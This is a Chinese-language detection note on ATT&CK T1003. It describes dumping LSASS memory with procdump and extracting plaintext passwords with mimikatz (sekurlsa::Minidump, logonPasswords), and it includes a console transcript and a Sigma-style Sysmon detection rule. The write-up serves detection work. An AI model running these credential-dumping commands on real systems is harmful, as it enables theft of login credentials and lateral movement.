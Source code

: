 # T1003-windows-Procdump明文凭证

## 来自ATT&CK的描述

凭证获取是从操作系统和软件中获取登录信息和密码的过程，通常为HASH散列或明文密码。然后使用凭证进行横向移动访问其他系统。

用户登录系统后，会生成各种凭据并将其存储在内存中的本地安全机构子系统服务（LSASS）进程中。这些凭证可以由管理用户或SYSTEM进行管理。

SSPI是Security Support Provider Interface（Microsoft安全支持提供器接口）的英文缩写。安全支持提供程序接口（SSPI）允许应用程序使用计算机或网络上可用的各种安全模型，而无需更改安全系统的接口。SSPI不会记录登录凭据，因为这通常是操作系统处理的特权操作。

一个安全支持提供商（SSP）包含在一个动态链接库，通过使一个或多个实现SSPI（DLL）安全包提供给应用程序。每个安全包都提供应用程序的SSPI函数调用和实际安全模型的功能之间的映射。

以下SSP可用于获取凭证：

Msv：交互式登录，批量登录和服务登录通过MSV身份验证包完成；

Wdigest：摘要认证协议设计用于超文本传输协议（HTTP）和简单认证安全层（SASL）交换；

Kerberos：Kerberos V5身份验证协议提供一个在客户端跟服务器端之间或者服务器与服务器之间的身份验证机制 （并且是相互的身份验证机制）；

CredSSP：为远程桌面服务提供SSO和网络级别身份验证；

## 测试案例

以下工具可用于枚举凭据：

- Windows凭据编辑器
- Mimikatz

除了内存技术，LSASS进程内存可以从目标主机转储并在本地系统上进行分析。

例如，在目标主机上使用procdump：

- procdump -ma lsass.exe lsass_dump

在本地，运行mimikatz：

- sekurlsa::Minidump lsassdump.dmp
- sekurlsa::logonPasswords

## 检测日志

sysmon日志

## 测试复现

场景：攻击者利用Procdump获取lsass进程内存文件，本地使用mimikatz获取密码(administrator)。

```dos
Microsoft Windows [版本 6.1.7601]
版权所有 (c) 2009 Microsoft Corporation。保留所有权利。

C:\Users\Administrator>cd C:\Users\Administrator\Desktop\Procdump

C:\Users\Administrator\Desktop\Procdump>procdump64.exe -ma lsass.exe 1.dmp

ProcDump v8.0 - Writes process dump files
Copyright (C) 2009-2016 Mark Russinovich
Sysinternals - www.sysinternals.com
With contributions from Andrew Richards

[13:42:47] Dump 1 initiated: C:\Users\Administrator\Desktop\Procdump\1.dmp
[13:42:50] Dump 1 writing: Estimated dump file size is 50 MB.
[13:42:51] Dump 1 complete: 50 MB written in 3.3 seconds
[13:42:51] Dump count reached.

C:\Users\Administrator\Desktop\Procdump>

```

## 测试留痕

sysmon事件，进程创建、进程访问、进程结束

## 检测规则/思路

```yml
title: 明文获取凭证——Procdump
description: windows server 2008 模拟测试结果
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: sysmon
detection:
    selection1:
        EventID: 1
        Image: '*\procdump*.exe'
        Product: ProcDump
        OriginalFileName: procdump
        CommandLine: 'procdump*.exe  -ma lsass.exe *.dmp'
    selection2:
        EventID: 10
        SourceImage: '*\procdump*.exe'
        TargetImage: 'C:\Windows\system32\lsass.exe'
    timeframe: last 1m
    condition: all of them
level: medium
```

建议您关注一下sysmon10.2的新特性OriginalFileName，经过安全人员研究测试发现，在进程创建事件中，procdump修改为ABC，但OriginalFileName依旧能够清晰的识别出该款工具是procdump。

## 参考推荐

MITRE-ATT&CK-T1003：https://attack.mitre.org/techniques/T1003/

windows SSPI模型：https://docs.microsoft.com/zh-cn/windows/win32/secauthn/sspi-model

MSV身份验证包：https://blog.csdn.net/lionzl/article/details/7725116

Wdigest摘要认证协议：https://www.4hou.com/info/news/8126.html

Kerberos身份认证协议技术参考：https://www.cnblogs.com/adylee/articles/893448.html

CredSSP凭证安全支持提供程序协议：https://docs.microsoft.com/zh-cn/windows/win32/secauthn/credential-security-support-provider





